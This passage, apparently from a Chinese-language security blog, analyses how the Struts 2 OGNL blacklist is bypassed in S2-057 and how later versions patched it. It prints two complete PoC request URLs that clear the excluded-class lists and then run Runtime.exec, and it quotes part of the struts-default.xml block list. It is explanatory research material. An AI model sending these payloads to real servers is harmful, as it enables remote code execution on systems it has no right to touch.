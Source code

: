 ```
```

绕过：【 PoC 参考 S2-057 ，影响版本 Struts 2.0.4 – Struts 2.3.34, Struts 2.5.0 – Struts 2.5.16 】

通过 setExcludedXXX(”) 方法实现：

```
(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))
```

但是，实操发现这样发送请求后面的命令还是不能执行，跟进 setExcludedXXX(”) 中的 Collections.unmodifiableSet(classes) 会发现其实是返回了一个新的空集合，并不是之前那个 _memberAccess 和 ognlUtil 共同引用的那个黑名单地址的集合，怎么办呐，很简单再发一次请求就可以了。为什么呢？因为提到过 OgnlUtil 是单例模式实现的，应用从始至终都用的同一个 OgnlUtil ，而 _memberAccess 的作用域是在一次请求范围内的，与此同时 OgnlUtil 中的黑名单集合已经置为空了，那么重新发一次请求，_memberAccess 重新初始化，通过 OgnlUtil 中为空的黑名单进行赋值。

还有一个需要绕过的地方：通过上下文环境中其他属性（比如这里的 attr ）来获得 context 。

```
#attr['struts.valueStack'].context
```

完整看一下 S2-057 的 PoC ：

两个数据包：

1、

```
/$`{`(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))`}`/login.action
```

2、

```
/$`{`(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('calc'))`}`/login
```

接着在 Struts2.5.20 中，使用的 ognl-3.1.21.jar 包 ognl.OgnlRuntime#getStaticField 中调用了 isAccessible 方法，同时 OgnlUtil 中 set 黑名单集合等修饰符由 public 变成了 protected 。在 Struts2.5.22+ 中，ognl.OgnlRuntime#invokeMethod 方法调用时屏蔽了常用的类，也即是就算将黑名单绕过去了方法调用时仍会判断是否是这些常用的类。同时 struts-default.xml 中定义的黑名单再次增加。

Struts2.5.25 struts-default.xml ：

```
&lt;constant name="struts.excludedClasses"

value="

java.lang.Object,

java.lang.Runtime,

java.lang.System,

java.lang.Class,

java.lang.ClassLoader,

java.lang.Shutdown,

java.lang.ProcessBuilder,

sun.misc.Unsafe,

com.opensymphony.xwork2.ActionContext" /&gt;

&lt;constant name="struts.excludedPackageNames"

```
